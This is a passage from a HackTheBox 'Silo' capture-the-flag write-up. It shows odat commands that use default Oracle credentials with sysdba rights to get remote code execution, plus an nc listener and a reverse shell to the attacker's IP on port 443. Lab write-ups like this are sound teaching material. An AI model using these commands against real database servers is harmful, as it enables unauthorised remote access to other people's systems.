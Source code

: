 Then, I ran the RCE with:

```bash
odat dbmsscheduler  -s silo.htb -U scott -P tiger -d XE --sysdba --exec "ping 10.10.14.69"
```

This operation finsihed without any errors. And in the `tcpdump` shell I got a ping:

![ping-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Silo/img/ping-19.png)

Now in order to get a reverse shell we can use `odat` once again. All we need to do is set up a local listener with:

```bash
rlwrap nc -lnvp 443
```

And run the following:

```bash
odat dbmsscheduler  -s silo.htb -U scott -P tiger -d XE --sysdba --reverse-shell 10.10.14.69 443
```

![rshell-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Silo/img/rshell-20.png)

On the listener window I recieve a connection:

![shell-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Silo/img/shell-21.png)
